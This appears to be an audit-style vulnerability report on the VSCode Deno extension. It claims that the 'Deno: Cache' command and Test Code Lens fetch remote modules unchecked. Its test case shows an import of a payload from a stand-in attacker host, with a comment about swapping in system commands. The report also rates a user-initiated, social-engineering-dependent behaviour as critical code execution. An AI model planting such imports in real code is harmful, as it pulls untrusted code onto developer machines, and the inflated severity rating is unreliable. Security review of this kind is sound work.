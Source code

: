 # Valid Vulnerabilities Matching Conditions

## 1. Arbitrary Code Execution via `Deno: Cache` Command and Test Code Lens

**Description:**

An attacker could leverage social engineering to potentially trick a developer into caching and executing a malicious remote module via the "Deno: Cache" command or the Test Code Lens functionality provided by the VSCode Deno extension. Specifically, steps include:

1. The attacker crafts a malicious module hosted on a controlled external URL (`https://malicious-domain.example.com/payload.ts`). This payload contains arbitrary code (e.g., system commands disguised as normal utility code).
2. The attacker socially engineers the target developer (via phishing, tutorials, shared snippets, or community resources) to include the remote malicious URL as an import line in their current open file in VSCode.
3. The developer consciously or unknowingly invokes the "Deno: Cache" command from VSCode's command palette (`Ctrl+Shift+P`) or applies a quick fix to fetch missing dependencies. Additionally, the VSCode developer may invoke "▶️ Run Test" via Code Lens, unintentionally running tests that trigger fetching and execution of scripts from malicious sources.
4. Once the developer triggers the action, VSCode executes a command provided by the extension (`deno cache` or `deno test` commands via CLI) to fetch and cache external modules without explicitly validating the source.
5. The malicious code is retrieved, cached, and potentially executed on developer machines through normal development/test workflows.

**Impact:**

Critical impact of arbitrary code execution (ACE) leading to:

- Remote Command Execution (RCE)
- Complete compromise of developer machines/workstations
- Disclosure/leakage of sensitive data from developer environment or corporate network
- Lateral movement and further exploitation within organization's infrastructure
- Compromise of the entire development workflow and infrastructure

**Vulnerability Rank:**

- **Critical**

**Currently Implemented Mitigations:**

- No automatic invocation of "Deno: Cache" occurs without explicit user interaction or via deliberate Quick Fix action by developer.
- Slightly reduces likelihood but not entirely robust against social engineering attacks or phishing tactics.

**Missing Mitigations:**

- Missing explicit validation, trust establishment, or warnings for modules imported from external origins.
- Lack of explicit security warnings or confirmation prompts presented in VSCode before caching external third-party modules.
- No built-in domain allowlisting or denylisting functionality to restrict fetching external code from unknown or potentially malicious domains.
- Absence of enforced integrity checks or validation (e.g., integrity hashes in lock files) requiring approval or verification prior to fetching remote modules.
- Insufficient explicit confirmations or security mitigations before running tests from Code Lens that could implicitly cause fetching and executing malicious external dependencies.

**Preconditions:**

- Developer must explicitly invoke the "Deno: Cache" command or run tests via Code Lens functionality leading to implicit external code fetching.
- Developer workstation must have external network access to retrieve remote code.
- Developer must be persuaded via social engineering or otherwise tricked into loading/inserting an import statement referencing a malicious module URL into the editor.

**Source Code Analysis:**

- Examination of source code (`vscode_deno/client/src/commands.ts`) reveals explicit command invocation to cache external dependency without security validation or confirmation:

```typescript
export function cacheActiveDocument(): Callback {
  return () => {
    const activeEditor = vscode.window.activeTextEditor;
    if (!activeEditor) return;
    const uri = activeEditor.document.uri.toString();
    return vscode.window.withProgress({
      location: vscode.ProgressLocation.Window,
      title: "caching",
    }, () => vscode.commands.executeCommand("deno.cache", [uri], uri));
  };
}
```

Step-by-step analysis:

- Developer has TypeScript file open in editor (`payload.ts`) containing:

```typescript
import "https://malicious-domain.example.com/payload.ts";
```

- Developer explicitly uses "Deno: Cache" (command palette or quick fix), invoking above code.
- Command maps to execution of `deno cache`, fetching arbitrary remote resource without domain validation. This means external malicious code is downloaded directly to developer workstation without explicit safeguards.

- Test Code Lens invocation (`deno test`) similarly invokes:

```typescript
const args = ["test", ...testArgs, "--filter", nameRegex, filePath];
```

- External modules referenced within test files will be implicitly fetched without explicit domain or integrity checks.

Thus, critical ACE proceeds easily via social engineering tactics.

**Security Test Case:**

To validate exploitability:

1. Attacker hosts a malicious TypeScript payload file externally:

```typescript
// https://malicious-domain.example.com/payload.ts
console.log("Malicious payload executed");
// Potentially replace console.log with actual system command
```

2. Socially engineer developer to include malicious import into their TypeScript file within VSCode workspace:

```typescript
import "https://malicious-domain.example.com/payload.ts";
```

3. Developer executes "Deno: Cache" command (`Ctrl+Shift+P`, type "Deno: Cache", press Enter) or clicks on Code Lens Test execution.
4. Visually confirm remote malicious payload is fetched automatically, cached locally without security warnings or confirmation dialogs, and potentially executed during tests or future invocation.
5. Successfully completed test demonstrates successful fetching and caching of malicious code, confirming the critical vulnerability's real-world exploitability.

---

## Final List of Matching Vulnerabilities

| Vulnerability Name | Rank | Status |
|--------------------|------|--------|
| Arbitrary Code Execution via `Deno: Cache` Command and Test Code Lens | Critical | Valid (matching specified conditions) |

---
